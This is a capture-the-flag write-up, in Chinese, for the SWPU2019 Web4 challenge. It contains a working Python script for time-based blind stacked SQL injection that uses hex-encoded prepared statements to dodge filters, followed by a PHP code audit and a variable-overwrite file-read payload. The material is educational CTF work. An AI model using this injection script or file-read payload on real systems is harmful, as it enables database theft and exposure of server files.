



# SWPU2019-Web4

参考博客：https://www.cnblogs.com/forchan/p/14664310.html

首先打开网页，发现是一个登录界面，但是点登录和注册没有反应



所以我们尝试抓包。账号输入admin，密码随便输。

判断存在堆叠注入的方法：在username处尝试sql注入。发现加单引号报错，加双引号不报错，加单引号和分号不报错，说明存在堆叠注入。

当我们在 **`username`** 输入 **`admin'`** 或者 **`admin;'`** ，提示报错

在`username`输入 `admin`和`admin';`报错消失

---

## PDO

php中的PDO知识点

https://xz.aliyun.com/t/3950

https://www.runoob.com/php/php-pdo.html

默认是pdo对象的query语句是能执行有;参与的多语句执行的，那我们就能闭合前面的单引号后进行堆叠注入

---

存在堆叠注入，但是没有回显，并且过滤掉了很多关键字。所以可以使用十六进制加预处理加时间盲注来进行绕过。

时间盲注思路：

```
select if(ascii(substr((select flag from flag),{0},1))={1},sleep(5),1) 
```

防止关键字和SQL预处理被过滤，所以使用16进制。

```
1 mysql> select hex('select sleep(5)');
2 mysql> set @a=0x73656C65637420736C656570283529;
3 mysql> prepare test from @a;
4 mysql> execute test;
```

SQL测试发现select sleep(5)可以成功执行，可以进行时间盲注。

## sql预处理和hex绕过过滤脚本

```
import requests
import time

url = "http://6e7ce81a-1f55-4482-9f4e-1d41b25598d6.node5.buuoj.cn:81/index.php?r=Login/Login"
flag = ""


def str_to_hex(s):  # 字符转十六进制
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])


for i in range(1, 40):
    print(i)
    for str1 in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_,!@#$%^&*``.":
        # ord()将字符串转为ascii，因为在测试中得不到特殊页面，因此利用sleep(3)来判断是否注入成功
        sql = "select if((ascii(substr((select group_concat(flag) from flag)," + str(i) + ",1))='" + str(
            ord(str1)) + "'),sleep(3),2);"  # ctf
        sql_hex = str_to_hex(sql)  # sql被抓转换为了十六进制数
        data = {
            "username": "1\';SET @a=0x" + str(sql_hex) + ";PREPARE st FROM @a;EXECUTE st;",  # 预处理
            "password": "123"
        }
        time1 = time.time()
        result = requests.post(url, json=data)  # timeout一个数字或一个元组，指示等待客户端建立连接和/或发送响应的秒数
        if time.time() - time1 >= 3:  # 利用python中time库来判断执行post请求前的时间戳和执行后的时间戳中的时间来知道是否执行成功sql语句
            flag += str((str1))
            print(flag)
            break
print(flag)
# glzjinwantsaliendzip
# glzjinnts_a_girl_friendzip
# glzjinwantsgirliendzip
# glzjin_wants_a_girl_friend.zip
```

爆出来一个文件名`glzjin_wants_a_girl_friend.zip`，下载`url/glzjin_wants_a_girl_friend.zip`

---

开始对源码进行代码审计

## 代码审计

前端应用逻辑的基础在 `controller` 文件夹下面，而其他文件都是基于 `basecontroller.php` 所以我们打开 `basecontroller.php` 文件进行代码审计

```
 1     private $viewPath;
 2     public function loadView($viewName ='', $viewData = [])
 3     {
 4         $this->viewPath = BASE_PATH . "/View/{$viewName}.php";
 5         if(file_exists($this->viewPath))
 6         {
 7             extract($viewData);
 8             include $this->viewPath;
 9         }
10     }
11     
12 }
```

`extract`传入`viewdata`数组造成变量覆盖，发现利用 **`loadView`** 方法的并且第二个元素可控的地方只有 **`UserController.php`**

```
<?php 

/**
* 用户控制器
*/
class UserController extends BaseController
{
	// 访问列表
	public function actionList()
	{
		$params = $_REQUEST;
		$userModel = new UserModel();
		$listData = $userModel->getPageList($params);
		$this->loadView('userList', $listData );
	}
    public function actionIndex()
    {
        $listData = $_REQUEST;
        $this->loadView('userIndex',$listData);
    }

}
```

在Controller/UserController.php中，找到可控制的参数直接来源于_REQUEST。 由于 **`$listData = $_REQUEST;`** 可以控制 到 **`userIndex.php`** 文件看看

```
            <div class="fakeimg"><?php
                if(!isset($img_file)) {
                    $img_file = '/../favicon.ico';
                }
                $img_dir = dirname(__FILE__) . $img_file;
                $img_base64 = imgToBase64($img_dir);
                echo '';       //图片形式展示
                ?></div>
```

这里的$img_file的值可利用前面的逻辑进行覆盖，传入img_file=./../flag.php即可，而又因为下面的路由控制，index.php包含了该php文件。

Common/fun.php

```
// 路由控制跳转至控制器
if(!empty($_REQUEST['r']))
{
    $r = explode('/', $_REQUEST['r']);
    list($controller,$action) = $r;
    $controller = "{$controller}Controller";
    $action = "action{$action}";


    if(class_exists($controller))
    {
        if(method_exists($controller,$action))
        {
            //
        }
        else
        {
            $action = "actionIndex";
        }
    }
    else
    {
        $controller = "LoginController";
        $action = "actionIndex";
    }
    $data = call_user_func(array( (new $controller), $action));
} else {
    header("Location:index.php?r=Login/Index");
}
```

---

## payload构造

所以我们只要传入`r=User/Index`，源码会将从/中分隔开然后赋值给$controller和$action，然后又会进行处理

```
$controller = "{$controller}Controller";
$action = "action{$action}";
假如r传入/User/Index
->
$controller =UserController
$action=actionIndex
```

继续往下看，一个 class_exists()判断该类是否存在，一个method_exists判断该类中的方法是否存在

类不存在则会变量覆盖

然后最后是一个call_user_func函数，当第一个参数是类名的时候，则会调用该类中的$action方法

```
1、所以我们传入`r=User/Index`就能执行UserController中的actionIndex方法。

2、由$listData = $_REQUEST;可以知道$listData是可控的数组。所以通过post传参传入img_file=/../flag.php，会执行$this->loadView('userIndex',$listData);


3、再因为$this->viewPath = BASE_PATH . "/View/{$viewName}.php";
         if(file_exists($this->viewPath))
         {
             extract($viewData);
             include $this->viewPath;
          }
所以源码会去拼接viewPath，并且进行变量覆盖，将$img_file的值覆盖为/../flag.php，由于传入的viewPath是userIndex，所以就会去包含view下的userIndex.php文件。
 
4、然后在userIndex.php文件下
            <div class="fakeimg"><?php
                if(!isset($img_file)) {
                    $img_file = '/../favicon.ico';
                }
                $img_dir = dirname(__FILE__) . $img_file;
                $img_base64 = imgToBase64($img_dir);
                echo '';       //图片形式展示
                ?></div>
由于img_file已经被我们覆盖为../flag.php，所以$img_dir会被拼接为dir/../flag.php，然后会被imgToBase64函数将代码转换为Base64编码，并且通过echo '';?>展示出来，这样我们就能拿到Base64编码后的flag了。
```

payload：

```
GET: index.php?r=User/Index

POST: img_file=/../flag.php
```

访问后查看网页源码得到加密后的代码。



解码之后看到flag




